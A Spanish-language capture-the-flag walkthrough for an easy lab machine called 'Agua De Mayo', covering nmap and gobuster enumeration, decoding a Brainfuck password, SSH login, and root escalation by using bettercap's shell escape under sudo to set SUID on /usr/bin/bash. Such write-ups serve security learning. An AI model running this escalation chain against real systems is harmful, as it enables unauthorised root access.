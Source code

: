 
## Nombre: Agua De Mayo

#### Dificultad : Facil

### 1. ESCANEO

- Podemos identificar el sistema operativo de la maquina, que eso nos podrá ayudar en un futuro a tomar decisiones o buscar vulnerabilidades, para ello ponemos el comando:
  

`ping -c 1 172.17.0.2`


- Ahora, hemos de escanear cuales son los puertos abiertos de la maquina, para ello, ejecutamos el siguiente comando:
  
   `nmap -p- --open --min-rate=5000 -T5 -A -sT -Pn -n -v 172.17.0.2`



- Ahora, abrimos el navegador, y entramos a la pagina web poniendo como URL (la dirección ip), miramos su código fuente y al final de el todo en la linea 519  aproximadamente hay unas línea que esta en un lenguaje de programación que se llama BRAIN FUCK, usando en internet un programa llamado try it : https://tio.run/# se busca el lenguaje y se pega el codigo y dara una palabra:
  
      `bebeaguaqueessano`


- Ahora, con *GOBUSTER* podemos hacer una enumeración de rutas, copiando la URL para indicar que nos busque directorios de esa pagina web, con el siguiente comando:

    
   `gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20`

Veremos que hay un directorio que de llama images, lo copiaremos al navegador y veremos que tenemos una imagen que se llama agua_ssh, la descargamos a nuestro ordenador para posteriormente analizarla.
 

- Para ver los metadatos podemos usar varias maneras, una de ellas es ExIFTOOL
  

  ``exiftool + ( archivo.jpg )``

- Para alistar caracteres imprimibles que tiene la imagen usaremos STRINGS
  

  `` strings + ( archivo.jpg ) ``


- Para ver si hay algún archivo oculto en la imagen usamos el siguiente comando:
  

 `` steghide info agua_ssh.jpg `` YES

### 2. Acceso

- ahora nos conectaremos atraves del SSH, utilizaremos el nombre de la imagen que este en el directorio previamente encontrado. la imagen se llama agua_shh, y utilizaremos la clave que nos dio al momento de resolver el codigo brain fuck:  bebeaguaqueessano

      ``ssh agua@172.17.0.2 al pedir la contraseña usamos bebeaguaqueessano


- Una vez con acceso tenemos que elevar privilegios, para ello podemos hacer un `` sudo -l`` para ver que comandos puede ejecutar este usuario. Vemos que tenemos un binario que se llama bettercap que podemos ejecutar, por lo tanto ponemos

   `` sudo bettercap``

- Podemos ver poniendo help como el índice de el modulo y vemos que para usar comandos hay que usar la exclamación, por ejemplo:
  
`` ! COMMAND : Execute a shell command and print its output.``

-   hacemos exit: veificamos los permisos SUID que hay con el comando ``find / -perm -4000 2> /dev/null`` , observaremos que hay diferentes directorios y nos enfocaremos en el ``/usr/bin/bash`` ya que tiene una bash que podemos darnos privilegios.

- Nos daremos permisos a la bash para poder ser root `` ! chmod u+s /usr/bin/bash
  
  hacemos exit y ejecutamos
- bash -p
- whoami
